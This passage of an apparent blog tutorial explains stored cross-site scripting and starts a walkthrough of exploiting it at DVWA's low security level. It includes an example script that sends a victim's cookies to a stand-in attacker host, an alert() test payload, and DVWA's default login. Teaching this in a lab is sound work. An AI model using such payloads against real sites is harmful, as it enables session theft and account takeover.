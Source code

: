 This vulnerability occurs when an insecure web application accepts input from untrusted sources, stores it, and later incorporates this harmful content into its HTTP responses.

**Example**

Imagine a social media platform where users can post messages and comments on each other’s profiles. The platform allows users to include HTML and JavaScript code in their posts. A user with malicious intent decides to exploit this by crafting a seemingly harmless comment like this:

```html
<script>  // Malicious script to steal user cookies  
  const attackerScript = new Image();  
  attackerScript.src = "http://malicious-site.com/steal?cookie=" + document.cookie;</script>
```

Upon the victim’s visit to the malicious comment, their browser executes the embedded JavaScript code, sending the user’s sensitive session information in cookies to the attacker’s server. Consequently, the victim’s account becomes compromised. This scenario arises because the platform’s server stores the comment, causing the malicious script to execute each time the comment-loaded page is accessed.

This serves as a clear illustration of stored XSS, wherein the malevolent script is retained on the server and triggered whenever vulnerable users access the page. Robust applications prioritize proper sanitization and encoding of user input prior to display, effectively preventing the activation of harmful scripts.

**Now that we’ve examined what stored XSS is, let’s explore how to exploit it in DVWA (Damn Vulnerable Web Application).**

Log in to DVWA using either the default credentials “admin” and “password,” or the credentials you have set up. We will begin by testing the low-security level, then move on to the medium level, and finally, the high-security level.

![](https://miro.medium.com/v2/resize:fit:875/1*pVnM-EbDJA4z6FumnCZpQw.png)

dvwa login form

**Low security**

Click on “DVWA Security,” then choose the “Low” security level and proceed by clicking the “Submit” button as depicted below.

![](https://miro.medium.com/v2/resize:fit:875/1*VJfgW6uAc5F9er3au3iGJQ.png)

dvwa low security level settings

Navigate to “XSS (Stored)” and input a name of your choice into the designated field. For the message field, insert the payload below before clicking the “Sign Guestbook” option.

<script>alert('stored XSS');</script>

![](https://miro.medium.com/v2/resize:fit:875/1*N5DyeyRyueH5g_3b6wyOwg.png)

low security stored xss

Upon submission, an alert box appeared, confirming the vulnerability of the site to stored XSS attacks.
